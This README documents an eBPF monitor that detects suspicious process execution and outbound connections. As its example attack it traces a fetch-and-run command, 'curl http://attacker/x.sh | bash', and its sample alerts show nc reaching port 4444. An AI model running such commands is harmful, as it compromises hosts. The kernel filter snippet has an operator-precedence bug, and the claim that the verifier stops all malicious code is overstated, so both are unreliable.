





# Advanced eBPF Security Engine &mdash; Implementation Guide

## Overview

This directory contains the production-ready eBPF-based kernel security engine for
Zenith-Sentry. It provides system-wide process execution tracking and real-time
network connection monitoring with active mitigation capabilities.

## High-Level Architecture



## Event Lifecycle (single `execve`)

Traces one real attack — `curl http://attacker/x.sh | bash` — from the
moment `execve()` enters the kernel, through the eBPF filter and ring buffer,
into user space, and finally out to the mitigation engine.



### Visual Event Pipeline



## Data-Structure Layout

Memory layout of the event struct written by the kernel program and
read by the Python user-space manager via `ctypes.Structure`:

```
  offset  size   field         description
  ──────  ────   ───────────   ────────────────────────────────────────
     0     4     pid           Kernel process id
     4     4     tgid          Thread-group id (user-perceived pid)
     8     4     uid           Effective uid (0 = root)
    12     4     _pad          Alignment
    16    16     comm[16]      Executable name (TASK_COMM_LEN)
    32   256     filename[256] Full path of target binary
   288     4     event_type    0=ENTER 1=EXIT 2=TCP_CONNECT
   292     4     retval        execve return (on exit) / port (on tcp)
   296     4     dest_ip       __be32 destination IPv4
   300     4     dest_port     __be16 destination port
  ──────  ────
  TOTAL   304 bytes per event
```
## Files
| File | Purpose |
|------|---------|
| `execve_monitor.c` | eBPF kernel program (C) - Hooks sys_execve and tcp_v4_connect |
| `../process_execve_monitor.py` | User-space manager - Loads eBPF, handles mitigation and alerts |
| `../install_ebpf_deps.sh` | Automated setup script for BCC, kernel headers, and iptables |
## Security Controls
- **Path Validation**: The `--source` argument is validated against allowed paths before loading
- **Bounded Storage**: Event and alert buffers are capped at 10,000 entries to prevent memory exhaustion
- **IP Block Limits**: Maximum of 1,000 blocked IPs to prevent resource exhaustion
- **Safe Mode Default**: Mitigation defaults to log-only unless `--enforce` is explicitly passed

## Setup & Installation
### Quick Setup (Automated)
```bash
# Install all eBPF dependencies
sudo bash install_ebpf_deps.sh
```
This will:
- Install BCC toolkit (`bcc-tools`, `libbpf-dev`)
- Install kernel headers (`linux-headers-*`)
- Verify kernel eBPF support (CONFIG_BPF, CONFIG_KPROBES, etc.)
- Install Python BCC bindings
- Test eBPF compilation
### Manual Setup (Ubuntu/Debian)
```bash
# Update package lists
sudo apt update && sudo apt upgrade -y
# Install BCC toolkit
sudo apt install -y bpf-tools libbpf-dev linux-headers-$(uname -r)
# Install Python development headers
sudo apt install -y python3-dev python3-pip
# Install Python BCC bindings
pip3 install bcc
# Verify kernel support
cat /boot/config-$(uname -r) | grep CONFIG_BPF
# Expected: CONFIG_BPF=y, CONFIG_BPF_SYSCALL=y, CONFIG_KPROBES=y
```
### Manual Setup (Fedora/RHEL/CentOS)
```bash
# Update package manager
sudo dnf update -y
# Install BCC toolkit
sudo dnf install -y bcc-tools libbpf-devel kernel-devel
# Install Python development headers
sudo dnf install -y python3-devel python3-pip
# Install Python BCC bindings
pip3 install bcc
```
## Usage
### Standalone Monitoring
Run the eBPF monitor as a standalone process:
```bash
# With JSON output (for SIEM integration)
sudo python3 process_execve_monitor.py --source zenith/ebpf/execve_monitor.c
# With human-readable output
sudo python3 process_execve_monitor.py --source zenith/ebpf/execve_monitor.c --human
# Capture events to file
sudo python3 process_execve_monitor.py \
    --source zenith/ebpf/execve_monitor.c \
    > /var/log/zenith/execve_events.json \
    2> /var/log/zenith/execve_alerts.log
```
### Integrated with Zenith-Sentry CLI
Enable eBPF monitoring during scans:
```bash
# Run full scan with eBPF process monitoring
sudo python3 main.py full-scan --ebpf --json
# Run with human-readable output
sudo python3 main.py full-scan --ebpf
```
## Output Formats
### JSON Output (Default)
Each event produces a structured JSON object.
**EXECVE Event:**
```json
{
  "timestamp": "2026-04-16T14:23:45.123456",
  "event_type": "EXECVE_ENTER",
  "process": {
    "pid": 2847,
    "tgid": 2847,
    "uid": 1000,
    "name": "bash"
  },
  "execution": {
    "binary": "/usr/bin/nc"
  }
}
```
**TCP CONNECT Event:**
```json
{
  "timestamp": "2026-04-16T14:23:46.000000",
  "event_type": "TCP_CONNECT",
  "process": {
    "pid": 2847,
    "tgid": 2847,
    "uid": 1000
  },
  "destination": {
    "ip": "1.2.3.4",
    "port": 4444
  }
}
```
### Alerts
High-severity threats are logged separately to stderr:
```json
[!!! ALERT !!!] {
  "severity": "HIGH",
  "timestamp": "2026-04-16T14:23:45.123456",
  "pid": 5521,
  "uid": 0,
  "process": "curl",
  "binary": "/tmp/malware.sh",
  "alerts": [
    "Binary in suspicious location: /tmp/malware.sh",
    "Unauthorized root execution: curl"
  ]
}
```
### Human-Readable Output
```
[14:23:45.123] EXECVE | PID= 2847 UID= 1000 |      bash → /usr/bin/python3
[14:23:46.456] EXECVE | PID= 2848 UID=    0 |  python3 → /tmp/payload.py
[!!! ALERT !!!] {"severity": "HIGH", ...}
```
## Threat Detection Heuristics

The heuristic pipeline runs in user space after each event is delivered from
the ring buffer. The decision tree below shows how an event is classified:



The monitor includes lightweight threat detection:
1. **Unauthorized Root Execution**
   - Detects when non-system binaries are executed as root
   - Flags: UID==0 && process not in [sudo, su, systemd, etc.]
   - Alert Severity: HIGH
2. **Suspicious Binary Locations**
   - Detects binaries executed from temporary directories
   - Paths: /tmp/, /dev/shm/, /var/tmp/
   - Alert Severity: HIGH
3. **Failed Execve**
   - Detects execve failures (possible evasion attempts)
   - Indicates process tried to execute non-existent or unreadable binary
   - Alert Severity: MEDIUM
## Performance & Overhead
| Metric | Value |
|--------|-------|
| **Per-execve Overhead** | ~1-2 microseconds |
| **Memory Usage** | ~5-10 MB (ring buffer + data structures) |
| **Scalability** | Tested up to 10,000 execves/sec on 4-core system |
| **CPU Impact** | <1% additional on idle systems |
The eBPF program uses:
- **Lock-free ring buffer** for event delivery (no mutex contention)
- **Tracepoints** instead of kprobes (stable ABI, predictable overhead)
- **Kernel-space filtering** to minimize events sent to user space
- **JIT compilation** for optimized bytecode execution
## Kernel Requirements
| Feature | Min Version | Recommended |
|---------|---|---|
| eBPF support | 4.8+ | 5.8+ |
| Ring buffer | 5.8+ | 5.8+ |
| Tracepoints | 3.5+ | 4.8+ |
| BPF JIT | 4.7+ | 5.8+ |
**Checking your kernel:**
```bash
uname -r
cat /boot/config-$(uname -r) | grep -E "CONFIG_BPF|CONFIG_KPROBES|CONFIG_TRACEPOINTS"
```
## Troubleshooting
### Error: "BCC library not found"
```bash
pip3 install bcc
```
### Error: "This tool requires root privileges"
All kernel-level monitoring requires root to attach probes:
```bash
sudo python3 process_execve_monitor.py --source zenith/ebpf/execve_monitor.c
```
### Error: "Failed to compile eBPF"
Common causes:
1. Kernel headers not installed: `sudo apt install linux-headers-$(uname -r)`
2. BCC not installed: `pip3 install bcc`
3. Kernel doesn't support eBPF: Check `cat /boot/config-$(uname -r) | grep CONFIG_BPF`
### Error: "Failed to attach tracepoints"
Tracepoints may not be available on older kernels (< 4.8):
```bash
# Check tracepoints
ls /sys/kernel/debug/tracing/events/syscalls/ | grep execve
```
If tracepoints fail, the script falls back to perf buffer automatically.
### No events appearing
1. Verify tracepoints are loaded:
   ```bash
   sudo ls /sys/kernel/debug/tracing/events/syscalls/sys_*execve
   ```
2. Run a simple command to trigger events:
   ```bash
   ls  # This will execute /bin/ls (execve event)
   ```
3. Check if running as root:
   ```bash
   sudo whoami  # Should print "root"
   ```
### High memory usage
Ring buffer size can be tuned in `execve_monitor.c`:
```c
BPF_RINGBUF_OUTPUT(events, 256);  // 256 KB buffer
// Change to: BPF_RINGBUF_OUTPUT(events, 512);  // 512 KB buffer
```
## Integration with SIEM/Log Aggregation
### Splunk
```bash
# Forward JSON events to Splunk HTTP Event Collector
sudo python3 process_execve_monitor.py --source zenith/ebpf/execve_monitor.c | \
    curl -X POST http://splunk-hec:8088/services/collector \
    -H "Authorization: Splunk <token>" \
    -d @-
```
### ELK Stack (Elasticsearch/Logstash)
```bash
# Send to Logstash TCP input
sudo python3 process_execve_monitor.py --source zenith/ebpf/execve_monitor.c | \
    nc -q 1 logstash-server 5000
```
### Syslog
```bash
# Send alerts to syslog
sudo python3 process_execve_monitor.py --source zenith/ebpf/execve_monitor.c 2>&1 | \
    logger -t zenith-ebpf
```
## Security Considerations
1. **Requires Root**: eBPF program attachment requires root privileges. Use with caution.
2. **Source Path Validation**: The BPF source path is validated before loading to prevent loading untrusted code.
3. **Bounded Storage**: Event and alert collections have hard limits (10,000) to prevent memory exhaustion from high-event workloads.
4. **Audit Logging**: Enable auditd to log all eBPF program attachments:
   ```bash
   sudo auditctl -w /sys/kernel/debug/tracing/ -p wa
   ```
5. **Output Protection**: Events are streamed to stdout/stderr. Protect output:
   ```bash
   sudo python3 process_execve_monitor.py ... | sudo tee -a /var/log/zenith/events.log
   sudo chmod 600 /var/log/zenith/events.log
   ```
6. **Kernel Verifier**: All eBPF bytecode is verified by the kernel before execution. Malicious code cannot bypass BPF verifier.
7. **Immutability**: Events generated at kernel level cannot be forged from user space.
## Advanced Configuration
### Custom Threat Heuristics
Edit `_threat_heuristics()` in `process_execve_monitor.py`:
```python
def _threat_heuristics(self, event, comm, filename):
    alerts = []
    # Example: Alert on Python execution
    if "python" in comm.lower():
        alerts.append("Python interpreter executed")
    # Your custom logic here...
```
### Ring Buffer Tuning
In `execve_monitor.c`:
```c
BPF_RINGBUF_OUTPUT(events, 512);  // Increase to 512 KB
```
### Filtering Events
Add kernel-space filtering in `execve_monitor.c`:
```c
TRACEPOINT_PROBE(syscalls, sys_enter_execve) {
    // Filter: Only capture root execve
    if (bpf_get_current_uid_gid() & 0xFFFFFFFF != 0) return 0;
    // ... rest of code
}
```
## eBPF Evolution Timeline



## References
- [BCC Documentation](https://github.com/iovisor/bcc)
- [eBPF Linux Kernel Documentation](https://www.kernel.org/doc/html/latest/userspace-api/ebpf/)
- [Linux Tracepoint Documentation](https://www.kernel.org/doc/html/latest/trace/tracepoints.html)
- [BPF Verifier Documentation](https://www.kernel.org/doc/html/latest/userspace-api/ebpf/concepts.html)
## License
Part of Zenith-Sentry - See LICENSE file for details.
